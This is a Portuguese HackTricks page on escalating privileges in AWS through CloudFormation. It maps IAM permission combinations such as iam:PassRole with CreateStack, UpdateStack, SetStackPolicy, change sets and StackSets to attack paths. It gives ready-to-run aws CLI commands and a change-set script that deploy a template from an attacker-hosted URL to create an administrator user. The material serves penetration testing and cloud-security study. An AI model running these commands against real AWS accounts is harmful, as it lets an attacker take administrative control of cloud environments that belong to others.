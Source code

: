 # AWS - Cloudformation Privesc

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## cloudformation

Para obter mais informações sobre o cloudformation, consulte:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Um invasor com as permissões **`iam:PassRole`** e **`cloudformation:CreateStack`** seria capaz de **escalar privilégios criando um modelo CloudFormation** que executará ações e criará recursos usando as **permissões da função que foi passada** ao criar uma pilha CloudFormation.

```bash
aws cloudformation create-stack --stack-name my_stack \
    --template-url http://my-website.com/my-malicious-template.template \
    --role-arn arn_of_cloudformation_service_role
```

Onde o modelo localizado no site do invasor inclui instruções para realizar **ações maliciosas, como criar um usuário administrador** e, em seguida, usar essas credenciais para escalar seu próprio acesso.

Na página a seguir, você tem um **exemplo de exploração** com a permissão adicional **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impacto potencial:** Privesc para a função de serviço cloudformation especificada.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Nesse caso, você pode **abusar de uma pilha cloudformation existente** para atualizá-la e escalar privilégios como no cenário anterior:

```bash
aws cloudformation update-stack \
    --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1 
```

A permissão `cloudformation:SetStackPolicy` pode ser usada para **dar a si mesmo a permissão `UpdateStack`** sobre uma pilha e realizar o ataque.

**Impacto potencial:** Privesc para a função de serviço cloudformation especificada.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Se você tiver essa permissão, mas **não tiver `iam:PassRole`**, ainda poderá **atualizar as pilhas** usadas e abusar das **Funções IAM que já estão anexadas**. Verifique a seção anterior para obter um exemplo de exploração (apenas não indique nenhuma função na atualização).

A permissão `cloudformation:SetStackPolicy` pode ser usada para **dar a si mesmo a permissão `UpdateStack`** sobre uma pilha e realizar o ataque.

**Impacto potencial:** Privesc para a função de serviço cloudformation já anexada.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Um invasor com permissões para **passar uma função e criar e executar um ChangeSet** pode **criar/atualizar uma nova pilha cloudformation abusando das funções de serviço cloudformation** da mesma forma que com o CreateStack ou UpdateStack.

A seguinte exploração é uma **variação da**[ **anterior**](./#iam-passrole-cloudformation-createstack) usando as **permissões do ChangeSet** para criar uma pilha.

```bash
aws cloudformation create-change-set \
    --stack-name privesc \
    --change-set-name privesc \
    --change-set-type CREATE \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::947247140022:role/CloudFormationAdmin \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1

echo "Aguardando 2 minutos para alterar a pilha"
sleep 120

aws cloudformation execute-change-set \
    --change-set-name privesc \
    --stack-name privesc \
    --region eu-west-1

echo "Aguardando 2 minutos para executar a pilha"
sleep 120

aws cloudformation describe-stacks \
    --stack-name privesc \
    --region eu-west-1
```

A permissão `cloudformation:SetStackPolicy` pode ser usada para **dar a si mesmo a permissão `ChangeSet`** sobre uma pilha e realizar o ataque.

**Impacto potencial:** Privesc para funções de serviço cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Isso é como o método anterior sem passar **funções IAM**, então você pode apenas **abusar das funções já anexadas**, basta modificar o parâmetro:

```
--change-set-type UPDATE
```

**Impacto potencial:** Privesc para a função de serviço cloudformation já anexada.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Um invasor pode abusar dessas permissões para criar/atualizar StackSets para abusar de funções cloudformation arbitrárias.

**Impacto potencial:** Privesc para funções de serviço cloudformation.

### `cloudformation:UpdateStackSet`

Um invasor pode abusar dessa permissão sem a permissão passRole para atualizar StackSets e abusar das funções de serviço cloudformation anexadas.

**Impacto potencial:** Privesc para as funções de serviço cloudformation anexadas.

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>